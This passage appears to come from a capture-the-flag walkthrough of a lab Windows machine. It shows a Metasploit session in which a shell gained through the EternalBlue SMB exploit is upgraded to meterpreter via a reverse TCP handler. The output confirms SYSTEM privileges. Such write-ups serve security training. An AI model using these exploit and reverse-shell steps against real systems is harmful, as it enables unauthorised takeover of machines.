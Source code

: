 #### 3.2 - Select this (use MODULE\_PATH). Show options, what option are we required to change?

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.9.80.228:4444 -> 10.10.37.188:49211 (10.10.37.188)

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/shell_to_meterpreter) > run

```

```bash
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.80.228:4433 
[*] Post module execution completed
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```bash
meterpreter > ps
```
